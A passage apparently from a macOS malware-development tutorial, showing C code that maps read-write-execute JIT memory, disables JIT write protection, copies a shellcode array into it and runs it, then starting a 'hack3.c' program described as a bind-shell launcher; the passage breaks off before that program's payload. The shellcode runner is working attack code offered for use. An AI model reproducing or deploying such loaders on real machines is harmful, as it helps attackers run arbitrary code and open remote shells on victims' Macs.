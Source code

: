 Minimal working example for this looks like this:    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <pthread.h>
#include <unistd.h>

int main() {
  size_t size = 4096;
    
  // allocate RWX memory with MAP_JIT for Apple Silicon
  void *shellcode = mmap(NULL, size, PROT_READ | PROT_WRITE | PROT_EXEC,
    MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);
    
  if (shellcode == MAP_FAILED) {
    perror("mmap");
    exit(1);
  }

  // optional: disable JIT write protection before writing (for M1)
  pthread_jit_write_protect_np(0);

  // shellcode
  unsigned char code[] = {
    // our shellcode here
  };

  memcpy(shellcode, code, sizeof(code));

  // re-enable JIT write protection (optional)
  pthread_jit_write_protect_np(1);

  // execute
  ((void(*)())shellcode)();

  return 0;
}
```

Even if you disable SIP (System Integrity Protection), this restriction applies in many scenarios starting with `macOS 11 (Big Sur)` and onward.    

Updated full source code for our `hack3.c`:    

```cpp
/*
* hack3.c
* run bind shell
* shellcode via mmap
* author: @cocomelonc
* https://cocomelonc.github.io/macos/2025/09/01/malware-mac-11.html
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <pthread.h>
#include <unistd.h>

int main() {
  size_t size = 4096;
  void *mem = mmap(NULL, size,
```